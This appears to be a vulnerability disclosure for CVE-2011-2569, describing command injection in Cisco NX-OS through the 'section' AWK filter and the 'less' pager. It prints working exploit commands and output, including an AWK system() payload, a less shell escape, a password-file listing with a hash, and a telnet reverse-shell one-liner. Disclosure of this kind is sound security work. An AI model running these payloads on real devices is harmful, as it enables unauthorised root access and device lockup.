 ## Cisco Nexus OS (NX-OS) - Command "injection" / sanitization issues.

##### Discovered by:
* Peter Adkins <peter.adkins@kernelpicnic.net>

##### Access:
* Local; authenticated access is required.

##### Tracking and identifiers:
* CVE - CVE-2011-2569

##### OS' Affected:
* Cisco Nexus OS (NX-OS)

##### Vendor involvement:
* Alerted - patches available / implemented for some platforms.

##### Systems / platforms affected:
* Nexus 7000
* Nexus 5000
* Nexus 4000
* Nexus 3000
* Nexus 2000
* Nexus 1000V
* MDS
* UCS

##### Notes:
Local access is required. However, unprivileged accounts can gain access to the underlying Linux operating system, effectively providing complete access to the device. This could potentially lead to issues in environments where NOC and other staff are permitted low-level access for first point of call, etc.
    
### NX-OS - "section" sub-command - Command injection / sanitization issues.

This issue was found on the Nexus 7000 platform. It is believed to also affect the following platforms:

 * Nexus 7000 ( OS < 5.2(1.61)S0 5.2(1)S73 5.2(1)S72 )
 * Nexus 5000 ( OS < UNK )
 * Nexus 4000 ( OS < UNK )
 * Nexus 3000 ( OS < UNK )
 * Nexus 2000 ( OS < UNK ) 
 * MDS        ( OS < 5.2(1.61)S0 5.2(1)S73 5.2(1)S72 )

The section command appears to be an AWK script to which the requested string is passed. However, the input does not appear to be sanitized correctly. As a result, AWK can be used to execute arbitrary commands on the Linux subsystem.

```
nx1# sh clock | sed 's/.*/BEGIN \{ system\(\"id"\) \}/' > 20110713.awk
Warning: There is already a file existing with this name. Do you want to
overwrite (yes/no)? [no] y

nx1# sh clock | sec '* -f /bootflash/20110713.awk '
uid=2003(user) gid=504(network-operator)
11:16:04.082 UTC Wed Jul 13 2011

nx1# sh clock | sed 's/.*/BEGIN \{ system\(\"ls \/mnt\/cfg\/0\/"\) \}/' > 20110713.awk

nx1# sh clock | sec '* -f /bootflash/20110713.awk '
ascii
bin
boot
cfglabel.sysmgr
debug
licenses
linux
log
lost+found
11:18:41.885 UTC Wed Jul 13 2011
```

This can even be used to remove all files on the bootflash and issue a 'reboot' command to the system. However, rebooting from the Linux subsystem causes the device to spew messages to the console and lock; rather than actually reloading the device.

### NX-OS - "less" sub-command - Command injection / sanitization issues.

Believed to affect the following versions of software:

* Nexus 7000  ( OS < 5.1(1) )
* Nexus 5000  ( OS < 4.2(1)N2(1) )
* Nexus 4000  ( OS < UNK)
* Nexus 2000  ( OS < 4.2(1)N2(1) )
* UCS        ( OS < 1.4(1i) 1.3(1c) )
  * On the UCS platform commands injected are executed as root.
* Nexus 1000V ( OS < UNK )
* MDS         ( OS < 5.1(1) )

As an example:

```
switch# sh clock | less
```

Once less is presented we open files by pressing colon and then "e" and specifying the path to the file.

```
bin:*:1:1:bin:/bin:
daemon:*:2:2:daemon:/usr/sbin:
sys:*:3:3:sys:/dev:
ftp:*:15:14:ftp:/var/ftp:/isanboot/bin/nobash
ftpuser:UvdRSOzORvz9o:99:14:ftpuser:/var/ftp:/isanboot/bin/nobash
nobody:*:65534:65534:nobody:/home:/bin/sh
admin:x:2002:503::/var/home/admin:/isan/bin/vsh_perm
```

However, this is just read-only access once again. BUT, if we use the "|" (pipe) and then "$" key macro, we can execute commands.

```
!ls -lah > /bootflash/20110715
```
As shown below, the file has been created on the boot-flash.

```        
switch# dir
      97     Jul 15 12:01:44 2011  20110715
```

Using this method, I have been able to establish a remote shell into the NX-OS Linux subsystem using the following:

```
 mknod rs p; telnet ad.dr.es.s 8888 0<rs | /bin/bash 1>rs
```

Even the reboot command is accepted as a valid input. However, rather than rebooting the device, it causes the system to lock while spewing errors to the console.

```
 switch# sh clock | less
 Fri Jul 15 12:06:30 UTC 2011
 !reboot

 Broadcast message from root (Fri Jul 15 12:06:39 2011):
```